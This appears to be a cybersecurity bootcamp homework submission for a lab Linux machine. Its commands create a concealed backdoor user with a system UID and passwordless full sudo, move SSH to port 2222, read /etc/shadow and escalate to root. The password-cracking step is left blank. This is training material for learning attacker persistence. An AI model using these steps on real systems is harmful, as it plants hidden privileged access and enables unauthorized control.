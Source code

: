 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - sudo adduser sysd --no-create-home
2. Give your secret user a password: 
    - sysd
    - very easy to remember...
3. Give your secret user a system UID < 1000:
    - usermod -u 47 sysd
4. Give your secret user the same GID:
   - groupmod -g 47 sysd
5. Give your secret user full `sudo` access without the need for a password:
   - 
   
        -visudo    
        -Add at the bottom:
        -sysd all=(all) NOPASSWD:ALL
![Edit_Sudoers_Step1_Q5](/HW-6/Image/Edit_Sudoers_Step1_Q5.png)


6. Test that `sudo` access works without your password:


![Sudo-L_Step1_Q6](/HW-6/Image/Sudo-L_Step1_Q6.png)

        sudo cat /etc/shadow
        sudo visudo
        None of them required a password.

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```bash
    Port 2222
    AddressFamily any
    ListenAddress 0.0.0.0
    ListenAddress ::
    ```
![SSHD_CONFIG_Step2_Q1.png](/HW-6/Image/SSHD_CONFIG_Step2_Q1.png)


**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - service sshd restart

2. Exit the `root` account:
    - exit multple times until you're back at sysadmin.

3. SSH to the target machine using your `sysd` account and port `2222`:
    - ssh sysd@192.168.6.105 -p 2222

4. Use `sudo` to switch to the root user:
    - sudo su root

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `Your solution command here`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `Your solution command here`

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

